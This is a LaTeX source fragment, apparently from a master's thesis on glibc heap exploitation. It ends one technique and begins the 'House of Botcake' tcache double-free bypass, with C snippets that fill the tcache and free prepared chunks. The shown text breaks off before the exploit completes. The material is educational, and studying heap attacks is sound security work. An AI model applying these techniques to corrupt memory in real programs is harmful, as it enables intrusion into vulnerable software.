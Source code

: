 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\begin{document}
The final step is free \lstinline{b} after free \lstinline{b} it is merged without fake chunk, so next \mallocc{} returns our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first; we assume our target is at the stack.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, we allocate seven chunks to fill up the \tch{} in the future. As we remember, we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge \lstinline{prev} and define the victim \lstinline{a}; also, we define a small chunk to prevent merge chunks with the top chunk after free.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so, we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
  free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the \lstinline{prev} and \lstinline{a}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}
\end{document}
